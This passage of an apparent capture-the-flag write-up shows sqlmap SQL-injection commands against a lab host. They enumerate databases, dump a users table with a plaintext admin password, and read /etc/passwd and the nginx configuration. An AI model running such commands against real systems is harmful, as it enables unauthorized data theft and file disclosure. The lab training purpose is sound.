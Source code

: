 Databases:
```sh
> sqlmap -r login.req --batch --threads 10 --dbs

[*] information_schema
[*] payroll_db
```

Tables of the database:
```sh
> sqlmap -r login.req --batch --threads 10 -D payroll_db --tables

+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
```

Dump specified table:
```sh
> sqlmap -r login.req --batch --threads 10(15-05-2023 17:40) 
> sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump

+----+-----------+---------------+------+-----------------------+------------+
| id | doctor_id | name          | type | password              | username   |
+----+-----------+---------------+------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+------+-----------------------+------------+
```

We were able to sucessfuly retrieve username and password of admin user.

We can also read files with sqlmap. Passwd file read:

```sh
> sqlmap -r login.req --batch --threads 10 --file-read=/etc/passwd
> cd /home/xxx/.local/share/sqlmap/output/preprod-payroll.trick.htb
> cat _etc_passwd | grep sh

root:x:0:0:root:/root:/bin/bash
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

We will use this to read nginx configuration file:

```sh
> sqlmap -r login.req --batch --threads 10 --file-read=/etc/nginx/sites-enabled/default
> cat /home/jayjaysea/.local/share/sqlmap/output/\
    preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default

server {
	listen 80 default_server;
	listen [::]:80 default_server;
	server_name trick.htb;
	root /var/www/html;

	index index.html index.htm index.nginx-debian.html;

```